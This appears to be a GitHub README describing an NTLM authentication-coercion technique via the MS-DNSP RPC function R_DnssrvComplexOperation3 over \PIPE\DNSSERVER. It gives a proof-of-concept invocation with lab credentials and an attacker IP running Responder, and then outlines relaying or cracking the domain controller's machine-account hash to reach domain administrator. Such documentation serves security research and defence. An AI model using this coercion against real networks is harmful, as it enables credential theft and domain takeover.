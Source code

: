# MS-DNSP - Remote call to R_DnssrvComplexOperation3 (opnum 14)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvComplexOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe)

+ **Function operation number**: `14`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation3(
     [in]                                DWORD                   dwClientVersion,
     [in]                                DWORD                   dwSettingFlags,
     [in, unique, string]                LPCWSTR                 pwszServerName,
     [in, unique, string]                LPCWSTR                 pwszVirtualizationInstanceID,
     [in, unique, string]                LPCSTR                  pszZone,
     [in, unique, string]                LPCSTR                  pszOperation,
     [in]                                DWORD                   dwTypeIn,
     [in, switch_is(dwTypeIn)]           DNSSRV_RPC_UNION        pDataIn,
     [out]                               PDWORD                  pdwTypeOut,
     [out, switch_is(*pdwTypeOut)]       DNSSRV_RPC_UNION *      ppDataOut
     );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvComplexOperation3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/4edb00e2-9dee-4e26-9584-8933f3299ebe